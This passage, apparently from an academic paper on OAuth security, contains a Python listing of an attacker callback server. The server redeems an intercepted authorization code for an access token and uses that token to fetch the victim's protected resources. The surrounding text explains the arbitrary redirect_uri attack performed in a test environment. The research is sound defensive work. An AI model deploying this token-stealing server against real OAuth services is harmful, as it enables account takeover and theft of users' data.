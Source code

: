\begin{minipage}\linewidth
\begin{lstlisting}[language={python}, caption={Example implementation of an attacker server, which handles redirections}, label={lst:attacker_server}] 
class OAuthCallback(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_url = urlparse(self.path)
        query_params = parse_qs(parsed_url.query)

		# Abort if there is no 'code' parameter present.
        assert query_params["code"] is not None

		# Fetch access token with code
        auth_code=query_params["code"]
        data = {"grant_type": "authorization_code",
                  "code": auth_code,
                  "redirect_uri": REDIRECT_URI,
                  "client_id": CLIENT_ID,
                  "client_secret": ""}
        res = r.post(f"{AUTHORIZATION_SERVER_URL}/oauth/token", data=data)
        access_token_data = res.json()

        # Utilize stolen access token
        headers = {"Authorization": f"Bearer {access_token_data['access_token']}"}
        res = r.get(f"{RESOURCE_SERVER_URL}/api/me", headers=headers)
        print("whoami:", res.content)
\end{lstlisting}
\end{minipage}

\subsubsection{Arbitrary redirect URI}
The first attack implemented is making the victim start an OAuth flow using the authorization code grant, but redirecting it to an arbitrary attacker callback server after authorization. This is done by simply exchanging the value of \emph{redirect\_uri} parameter to the location of the attacker callback server. The callback server then uses the received authorization to redeem an access token at the authorization server as displayed and already explained in figure \ref{lst:attacker_server}. The attacker then uses the access token to fetch protected resources. This is a very basic attack and assumes that there is not any kind of whitelist in place like it is simulated in the experiment environment. However, there are more sophisticated versions of this attack utilizing the e.g. \emph{Evil Slash} \cite{wang2019make} trick mentioned in Section \ref{threat:T1}. 


